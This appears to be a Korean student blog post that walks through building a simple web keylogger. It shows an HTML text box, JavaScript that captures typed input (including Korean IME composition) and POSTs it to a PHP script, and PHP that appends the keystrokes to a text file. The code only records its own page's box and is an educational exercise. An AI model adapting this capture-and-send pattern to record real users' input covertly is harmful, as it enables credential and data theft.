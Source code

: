 ```yaml
---
layout: single
title:  "4주차 키로거 만들기"
categories: project
typora-root-url: ..\
author_profile: false
---
```




<br>

# <span style="background:#000000; color:#ffffff">1.키로거 만들기</span>

<br>

키로거란? 사용자가 작성하는 글을 기록하고 전송하는 것을 말합니다. 즉 사용자의 입력의 데이터를 가져오는 것입니다.

키로거를 만든 것을 보여드리면서 코드를 설명하겠습니다.

<img src="/images/2024-05-14-3/image-20240514033456490.png" alt="image-20240514033456490" style=" zoom: 50%;" /><img src="/images/2024-05-14-3/image-20240514034539596.png" alt="image-20240514034539596" style="zoom:50%;" />

▶ 글을 작성하니, 작성한 글이 txt파일에 저장되는 모습!

<br>

## <span style="background:#696969; color:#ffffff">1.1 keylog.html</span>

<br>

저는  기본적으로 작성할 텍스트 박스를 만들었고, 텍스트의 내용을 밑에 표시하고 싶었기 때문에 pre를 작성해두었습니다.  
필요에 따라 밑에 표시하는 구문은 지우셔도 무방합니다.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>keylogger</title>
</head>
<body>
    <h1>keylogger</h1>
    <input type="text" id="input" placeholder="입력할 글자를 넣어주세요">
    <pre id="log"></pre>
</body>
<script src="keylogger.js"></script>
</html>
```

<br>

## <span style="background:#696969; color:#ffffff">1.2 keylogger.js</span>

<br>▶<span style='font-weight:bold; font-size:20px'>DOMContentLoaded로 구성 및 변수지정</span>

```javascript
document.addEventListener('DOMContentLoaded', () => {		#DOM이 완료되고, 초기에 스크립트를 실행하기 위함.
    const input = document.getElementById('input');		# 작성할곳	
    const log = document.getElementById('log');			# 작성한 것이 밑에 나타날 곳	
    let composing = false;					# IME 입력 중인지 나타내는 플래그(한글작성을 위해)
    let buffer = '';						# 데이터를 임시 저장(한글의 문장열을 한꺼번에 보내려고)
    let timeoutId = null;					# 디바운싱을 위한 타임아웃 ID(불필요한 텍스트를피하려고)
```

<br>

▶<span style='font-weight:bold; font-size:20px'>IME 입력으로 한글적기 및 밑에 텍스트 내용 표시하기</span>

```javascript
 #한글을 작성할 때 
 #(영어가 아닌 한글은 자음가 모음의 결합된 형태이기 때문에 composing을 이용하여 문자조합의 시작과 끝을 나누어서 봐야한다.)

	input.addEventListener('compositionstart', () => {	#입력을 시작, true는 입력중이라는 뜻.
        composing = true;
    });

    input.addEventListener('compositionend', (event) => {	#입력 끝, false는 입력을 끝냈다는 뜻.
        composing = false;					#한글 작성을 끝내고,buffer와log에 데이터를 추가
        buffer += event.data || '';
        log.textContent += event.data || '';
        sendData(buffer);					# buffer에 저장된 텍스트를 서버로 전송
        buffer = '';						# buffer 초기화
    });
-----------------------------------------------------------------------------------------------------------
    #영어를 작성하거나 기타 다른 것을 작성할 때(밑에 log 작성안할시,if문에 buffer 데이터추가하고 서버에 보내도 됌)

    input.addEventListener('input', (event) => {					
        if (!composing) {						# 한글을 입력하지 않고 다른것을 작성할때
            if (event.inputType === "deleteContentBackward") {		# backspace키
                log.textContent = log.textContent.slice(0, -1);		# slice는 추출해서 새로운 문자열 만드는것
            } else {							(인덱스0, 인덱스-1)이므로 마지막단어빼고 만듬
                log.textContent += event.data || '';			# 나머지는 영어라서 log에 데이터 추가
            }
            debounceSendData(log.textContent);				# 디바운싱을 적용하여 서버에 전송
        }								시간 차를 이용해서 텍스트를 모아서 한꺼번에 처리하여, log에 불필요한 텍스트가 생기는 것을 방지한다.
    });

```

<br>

▶<span style='font-weight:bold; font-size:20px'>데이터 전송하기 및 서버 응답 상태 확인하기</span>

```javascript
	###글 작성시, 바로 서버에 보내면 불필요한 글까지 전송된다. 하여 시간 차를 두어 수정할 시간을 확보하기 위함이다.### 
    
    function debounceSendData(text) {
        clearTimeout(timeoutId);		#이전에 설정된 타임을 취소.
        timeoutId = setTimeout(() => {		#새로운 타임 설정, 2초후에 서버로 text를 보냄.
            sendData(text); 
        }, 2000); 
    }

    function sendData(text) {
        var xhr = new XMLHttpRequest();		#웹페이지가 로딩이 끝난뒤에도 서버에 데이터를 주고 받을수 있음.
        xhr.open("POST", "keylog.php", true);	#요청을 설정. (메서드, 경로, 비동기(true),동기(false))
        					동기: 데이터베이스 검색후, 다음코드 진행하는 것처럼 한작업 끝나고 진행
                        			비동기:서버에 데이터주고받을때 처럼 바로 요청에 응답처리
        
                                                
        ###http요청헤더 content-Type 헤더에서 보낸 데이터가 url을 인코딩, 문자 인코딩이 utf-8 지정###   
         
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');

        
        ###http요청이 완료되었을 때, http상태가 200(좋음)인지 아닌지에 따라 출력하기###
        
        xhr.onload = function() {
            if (xhr.status === 200) {
                console.log('Data sent successfully:', xhr.responseText);
            } else {
                console.log('Failed to send data:', xhr.status);
            }
        };

        xhr.send(`keys=${encodeURIComponent(text)}`); 		#데이터 인코딩해서 전송
    }
});

```

<br>

## <span style="background:#696969; color:#ffffff">1.3 keylog.php</span>

<br>

▶<span style='font-weight:bold; font-size:20px'>데이터 txt 파일로 보내기</span>

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $keys = $_POST['keys'] ?? '';             # key가 존재하지 않거나 null값이면 ''
    file_put_contents("keylog.txt", $keys . PHP_EOL, FILE_APPEND | LOCK_EX); 
}	#PHP_EOL:줄바꿈 추가#  #FILE_APPEND:기존내용유지,뒤에 계속내용추가# #LOCK_EX:다른프로세스가 파일을 변경할수 없게함#
```





